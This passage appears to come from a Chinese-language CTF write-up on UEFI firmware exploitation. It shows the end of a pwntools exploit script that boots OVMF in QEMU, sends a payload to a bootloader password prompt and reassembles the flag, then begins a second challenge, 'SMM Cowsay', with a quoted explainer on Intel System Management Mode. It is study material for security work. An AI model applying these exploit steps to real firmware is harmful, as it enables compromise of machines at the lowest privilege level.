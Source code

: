 ```python
    sa(b"Enter Password: \r\n", b"\r")
    sa(b"Enter Password: \r\n", b"\r")
    input("DEBUG")
    sa(b"Enter Password: \r\n", payload)


fname = tempfile.NamedTemporaryFile().name
os.system("cp OVMF.fd %s" % (fname))
os.system("chmod u+w %s" % (fname))
io = process(
    [
        "qemu-system-x86_64",
        "-monitor",
        "/dev/null",
        "-m",
        "64M",
        "-drive",
        "if=pflash,format=raw,file=" + fname,
        "-drive",
        "file=fat:rw:contents,format=raw",
        "-net",
        "none",
        "-nographic",
        "-s",
    ],
    env={},
)

enter_bootloader()
flag1 = b"CFB"
ru(flag1)
flag1 += ru(b"}")
flag2 = ru(b"\n").replace(b"\r", b"")
flag = ""
for i in range(len(flag2)):
    flag += chr(flag1[i]) + chr(flag2[i])
flag += "}"

__import__("lianpwn").success(flag)
```

---
# 例题 2：SMM Cowsay

先简单看一下 SMM 是什么：

> [!quote] 
> SMM（系统管理模式）是Intel处理器的一个特殊模式，主要用于实现底层硬件控制功能，如电源管理和系统硬件控制。这种模式的特点和操作流程如下：
> 
> 1. **定义和用途**：
>    - SMM是一种隔离的执行环境，专门用于处理系统范围内的关键功能，例如电源管理和硬件控制。
>    - 它通常包含OEM专有的设计代码，用于执行特定于制造商的任务。
> 
> 2. **如何进入SMM**：
>    - 通过系统管理中断（SMI）进入SMM。SMI可以通过硬件的SMI#引脚或通过高级可编程中断控制器（APIC）来触发。
>    - SMI是一种不可屏蔽的中断，这意味着它可以在大多数其他类型的中断被屏蔽时执行。
> 
> 3. **SMM环境**：
>    - ~~进入SMM后，处理器环境会转换到实模式，关闭分页（CR0寄存器的PE和PG位被设置为0），这允许直接访问最多4GB的物理内存。~~ 在较新的Intel处理器中，SMM可以支持64位模式和分页。这使得SMM能够更有效地管理和隔离更大的内存空间，并支持现代操作系统的需求。
>    - 在此模式下，常规中断被屏蔽，以避免干扰。
> 